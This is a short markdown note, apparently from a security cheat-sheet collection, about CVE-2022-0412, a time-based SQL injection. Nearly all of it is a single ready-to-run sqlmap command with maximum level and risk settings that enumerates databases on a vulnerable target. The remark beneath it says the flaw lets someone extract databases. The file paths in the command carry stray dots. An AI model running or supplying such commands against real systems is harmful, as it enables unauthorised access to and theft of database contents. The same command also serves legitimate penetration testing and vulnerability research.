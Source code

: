 ```yaml
---
title: CVE-2022-0412 - a time based sqli
tags:
  - sqli
  - sqlmap
---
```

```sh
sqlmap./py -r request./txt --dbs --random-agent --time-sec=12 --level=5 --risk=3 --batch --flush-session
```
CVE-2022-0412 is time based sql injection but you can extract databases with this command